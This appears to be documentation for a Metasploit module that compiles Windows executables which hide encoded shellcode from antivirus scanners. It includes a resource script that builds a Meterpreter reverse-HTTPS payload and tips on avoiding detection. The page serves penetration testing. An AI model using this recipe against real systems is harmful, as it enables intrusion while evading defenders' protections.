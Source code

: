 # Introduction

This module allows you to generate a Windows exe that evades static signature detections.
To achieve this, multiple techniques are used:

## Encoded Shellcode

The selected payload is hex encoded and inserted into the template source code.
The source code, at runtime, decodes and executes the shellcode in memory.

## Customizable Compiler

Compiler and linker flags are exposed to the user so they may modify compilation behavior.
An alternate compiler can also be used, such as `garble`.

# Traffic Encryption

Some Meterpreter payloads support encryption, such as RC4 or HTTPS. You either should consider
using a custom payload of your own to avoid detection, or at least use one that supports encryption
for best results.

# Verification Steps
Here is an example rc:

```
use evasion/windows/golang_shellcode_exec
set COMPILER garble
set COMPILER_FLAGS -literals
set LDFLAGS -H=windowsgui
set KEEPSRC 1

set payload windows/x64/meterpreter/reverse_https
set LHOST eth0
set LPORT 443
run
```


## Options

### PATH
Default: `~/.msf4/local`

Folder where the resulting payload will be placed

### FILENAME
Default: random

Filename for the generated evasive file file

### DEBUGGING
Default: false

Instructs the template to also include debug printers in the final exe

## Advanced Options

### COMPILER
Default: `go`  

The compiler to use for compiling the payload. You may use alternates like `garble` if you have
them installed

### COMPILER_FLAGS
Default: ""

Example: "-literals,-tiny"

Flags to pass the compilers. Multiple flags should be separated by commas.

### LDFLAGS
Default: ""

Example: "-s -w -H=windowsgui -Xmain.VERSION=v0.0.1"

Flags to pass the linker, separated by spaces. This whole string is passed to the linker via the
compiler's `-ldflags` argument, so it will be passed as 1 argument string.


### BUILD_FLAGS
Default: ""

Example: "-trimpath,-a"

Flags to pass the build subcommand. Multiple flags should be separated by commas.

### KEEPSRC
Default: false

If set to true, the generated source code, along with the encoded payload, will be saved the
directory indicated by the PATH option

